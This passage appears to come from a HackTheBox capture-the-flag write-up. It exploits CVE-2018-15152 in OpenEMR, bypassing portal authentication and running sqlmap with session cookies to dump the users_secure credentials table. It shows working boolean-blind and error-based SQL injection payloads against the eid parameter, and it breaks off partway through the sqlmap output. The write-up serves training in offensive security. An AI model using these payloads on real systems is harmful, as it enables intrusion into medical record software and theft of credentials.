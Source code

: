 ## Exploit
### CVE-2018-15152
Looks like we have to try CVE-2018-15152 to bypass the authentication of ```/portal/account/register.php```. First, we will go to ```/portal/account/register.php``` and afterwards we will navigate to ```/portal/add_edit_events_user.php```. However, we realize that ```/portal/add_edit_events_user.php``` is vulnerable to SQL injection from the POC shown below. 

![SQL Injection vulnerability POC](https://github.com/joelczk/writeups/blob/main/HTB/Images/cache/sql_injection.PNG)

We will now try to dump out the admin credentials using ```sqlmap```

```
┌──(kali㉿kali)-[~/Desktop]
└─$ sqlmap --cookie="PHPSESSID=mnf7afl4jmtovagi5p9p6jek63; OpenEMR=0k56dt9dj1qvcaopa9s2o804e7" --url=http://hms.htb/portal/add_edit_event_user.php?eid=1 --tables -D openemr -T users_secure --dump             2 ⚙
        ___
       __H__                                                                                                                                                                                                        
 ___ ___[']_____ ___ ___  {1.5.5#stable}                                                                                                                                                                            
|_ -| . ["]     | .'| . |                                                                                                                                                                                           
|___|_  [,]_|_|_|__,|  _|                                                                                                                                                                                           
      |_|V...       |_|   http://sqlmap.org                                                                                                                                                                         

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:18:37 /2021-08-22/

[13:18:37] [INFO] resuming back-end DBMS 'mysql' 
[13:18:37] [INFO] testing connection to the target URL
[13:18:38] [WARNING] there is a DBMS error found in the HTTP response body which could interfere with the results of the tests
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: eid (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: eid=(SELECT (CASE WHEN (4734=4734) THEN 1 ELSE (SELECT 3571 UNION SELECT 7255) END))

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: eid=1 AND GTID_SUBSET(CONCAT(0x7171766a71,(SELECT (ELT(1610=1610,1))),0x717a707871),1610)

    Type: time-based blind
```